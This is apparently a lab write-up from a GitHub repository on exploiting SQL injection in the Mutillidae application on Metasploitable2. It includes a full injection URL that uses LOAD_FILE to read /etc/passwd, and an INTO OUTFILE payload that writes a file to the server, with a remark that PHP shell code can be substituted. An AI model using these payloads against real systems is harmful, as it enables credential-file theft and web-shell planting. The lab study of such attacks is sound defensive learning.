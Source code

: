 ![image](https://github.com/lokeshnarayanan/sqlinjection/assets/119393019/47c7189b-6a91-4eb3-8eb5-4313877edfb8)


## Reading and writing files on the webserver:
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/lokeshnarayanan/sqlinjection/assets/119393019/5b732b24-d1ef-4388-a289-dcd409e35203)


the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).


## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
